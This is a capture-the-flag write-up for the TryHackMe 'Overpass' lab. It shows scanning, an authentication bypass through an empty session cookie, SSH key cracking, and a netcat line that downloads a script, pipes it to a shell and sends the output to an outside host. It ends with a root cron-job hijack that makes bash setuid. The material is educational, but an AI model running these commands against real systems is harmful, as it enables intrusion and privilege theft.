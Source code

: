 <!-- TOC -->

- [Overpass](#overpass)
    - [Discovery and Scanning](#discovery-and-scanning)
    - [Exploitation](#exploitation)
    - [Privilege Escalation](#privilege-escalation)

<!-- /TOC -->

# Overpass

[Overpas Room](https://tryhackme.com/room/overpass)

What happens when some broke CompSci students make a password manager?
Obviously a perfect commercial success

| Title | IP Address |
| :---- | :---- |
| Overpass 1 | `1*.**.*.***` |

## Discovery and Scanning

```bash
sudo nmap -A -vv -T4 -oA initial 1*.**.*.***
```

> `80/tcp open  http    syn-ack ttl 61 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)`

```bash
gobuster dir -u 1*.**.*.***:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,sh,css,htm,html,js,php,py -t 120 -o gobuster
```

> ```
> /downloads            (Status: 301) [Size: 0] [--> downloads/]
> /index.html           (Status: 301) [Size: 0] [--> ./]        
> /img                  (Status: 301) [Size: 0] [--> img/]      
> /main.css             (Status: 200) [Size: 982]               
> /login.js             (Status: 200) [Size: 1779]              
> /main.js              (Status: 200) [Size: 28]                
> /aboutus              (Status: 301) [Size: 0] [--> aboutus/]  
> /admin                (Status: 301) [Size: 42] [--> /admin/]  
> /admin.html           (Status: 200) [Size: 1525]              
> /css                  (Status: 301) [Size: 0] [--> css/]      
> /404.html             (Status: 200) [Size: 782]               
> /cookie.js            (Status: 200) [Size: 1502]  
> ```

Check the `/login.js`:

> ```js
> event.preventDefault()
> login()
> ```

> ```js
> if (statusOrCookie === "Incorrect credentials") {
>     loginStatus.textContent = "Incorrect Credentials"
>     passwordBox.value=""
> } else {
>     Cookies.set("SessionToken",statusOrCookie) // `statusOrCookie` no data validation
>     window.location = "/admin"
> }
> ```

In `/admin` using the browser's `console`:

```js
Cookies.set("SessionToken","")
```

- Refresh

> ```
> Since you keep forgetting your password, James, I've set up SSH keys for you.
> 
> If you forget the password for this, crack it yourself. I'm tired of fixing stuff for you.
> Also, we really need to talk about this "Military Grade" encryption. - Paradox
> 
> -----BEGIN RSA PRIVATE KEY-----
> Proc-Type: 4,ENCRYPTED
> DEK-Info: AES-128-CBC,9F85D92F34F42626F13A7493AB48F337
> . . .
> ```

- Copy to `james_id_rsa`

```bash
chmod 600 james_id_rsa
ssh2john james_id_rsa > hash
john hash -w=/usr/share/wordlists/rockyou.txt
```

> `j****** (james_id_rsa)`

## Exploitation

Using `james:j******`

```bash
ssh -i james_id_rsa james@1*.**.*.***
```

RHOST:

```bash
ls -la
```

> ```
> drwxr-xr-x 6 james james 4096 Jun 27  2020 .
> drwxr-xr-x 4 root  root  4096 Jun 27  2020 ..
> lrwxrwxrwx 1 james james    9 Jun 27  2020 .bash_history -> /dev/null
> -rw-r--r-- 1 james james  220 Jun 27  2020 .bash_logout
> -rw-r--r-- 1 james james 3771 Jun 27  2020 .bashrc
> drwx------ 2 james james 4096 Jun 27  2020 .cache
> drwx------ 3 james james 4096 Jun 27  2020 .gnupg
> drwxrwxr-x 3 james james 4096 Jun 27  2020 .local
> -rw-r--r-- 1 james james   49 Jun 27  2020 .overpass
> -rw-r--r-- 1 james james  807 Jun 27  2020 .profile
> drwx------ 2 james james 4096 Jun 27  2020 .ssh
> -rw-rw-r-- 1 james james  438 Jun 27  2020 todo.txt
> -rw-rw-r-- 1 james james   38 Jun 27  2020 user.txt
> ```

```bash
cat user.txt
```

> `t**{********************************}`

Check the `/downloads/src/overpass.go`

```go
. . .
type passListEntry struct {  // The struct
	Name string `json:"name"`
	Pass string `json:"pass"`
}
. . .
func rot47(input string) string  // Using Rot47
. . .
credsPath, err := homedir.Expand("~/.overpass")  // The creds is a hidden file in home directory
. . .
```

```bash
cat .overpass
```

> `,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.`

Decode it using [CyberChef](https://gchq.github.io/CyberChef/) `Rot47`:

> `[{"name":"System","pass":"s*******************"}]`

Using [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

LHOST:

```bash
nc -q 1 -lvnp 80 < linpeas.sh
nc -lvnp 81 | tee linpeas
```

RHOST:

```bash
nc 10.6.31.75 80 | sh | nc -q 1 10.6.31.75 81
```

> `* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash`

```bash
ls -l /etc/hosts
```

> `-rw-rw-rw- 1 root root 250 Jun 27  2020 /etc/hosts`

## Privilege Escalation

Modify the `/etc/hosts`

`<LHOST-IP> overpass.thm`

LHOST:

```bash
mkdir -p dowloads/src/
cd downloads/src
nano buildscript.sh
```

> ```sh
> #!/bin/bash
> chmod +s /bin/bash
> ```

```bash
../..
python -m http.server 80
```

RHOST:

```bash
ls -l /bin/bash
```

> `-rwsr-sr-x 1 root root 1113504 Jun  6  2019 /bin/bash`

```bash
bash -p
ls -l /root
cat /root/root.txt
```

> `t**{********************************}`
